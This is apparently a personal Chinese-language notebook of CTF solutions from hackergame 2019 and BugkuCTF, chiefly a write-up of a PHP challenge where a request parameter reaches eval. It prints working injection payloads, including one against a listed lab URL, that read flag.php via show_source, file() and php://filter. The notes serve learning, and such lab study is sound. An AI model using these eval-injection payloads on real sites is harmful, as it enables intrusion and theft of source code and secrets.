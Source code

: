 # CTF记录
---

开始时间 2019/10/17

------------

## hackergame 2019
### 信息安全2077 时间类
haha 第一题我就🕊了，不愧是我
一开始的思路没错改那个时间戳但是貌似 是burp改不行还是我burp有问题？。。。。

来了来了，wp来了，中科大官方wp https://github.com/ustclug/hackergame2019-writeups?tdsourcetag=s_pctim_aiomsg

### 达拉崩吧 调试类
挺简单的，js文件很容易看出来变量v是关键，直接在买菜的时候改v就可以了

## bugkuctf
### web4
打开之后看源码，1.是post，2.如果a不为undefined而且为67d709b2b54aa2aa648cf6e87a7114f1就返回！0，即真

--------
### 文件包含漏洞
---
#### 本地包含
进去后看到如下代码
 <?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?> 
代码解释：

a、include "flag.php" 他居然把我们想要的flag包含进来了，真是嘿嘿嘿嘿

b、$_request这个变量和$_GET、$_POST一样，都属于超级全局变量，但是呢，运行时修改后者不会影响前者，反之亦然

c、以get/post/cookies等方式把以hello为名的东西提交过来

d、eval函数把字符串当作命令直接执行

e、最后一句把本页代码以高亮语法显示出来

###### 解法1.利用eval
可以构造payload，有点像数据库注入 hello=1);show_source(%27flag.php%27);var_dump(3 把这个带到eval( "var_dump($a);");中就是eval( "var_dump(1);show_source(%27flag.php%27);var_dump(3);");拆分成执行三条语句了 %27为单引号的ASCII
###### 解法2.直接将flag.php文件读入变量hello中

?hello=get_file_contents('flag.php')或

?hello=file('flag.php')

###### 解法3.利用php://filter + eval

http://120.24.86.145:8003/index.php?hello=1);include $_POST['f'];//  （把后面的括号注释掉）

在POST区域：f=php://filter/convert.base64-encode/resource=flag.php?

得到的结果base64解码即可 这个不懂可看下面的php：//filter妙用的链接

试着试着就崩了，没拿到flag可能是网站问题。。。

命令执行漏洞学习总结 https://www.jianshu.com/p/bf64c59b64e6

BugkuCTF-web-本地包含 https://blog.csdn.net/huangming1644/article/details/82818482

谈一谈php://filter的妙用 https://www.leavesongs.com/PENETRATION/php-filter-magic.html
---
### 调试类
#### 点击100万次
定位对应变量clicks，断电，在控制台赋值即可
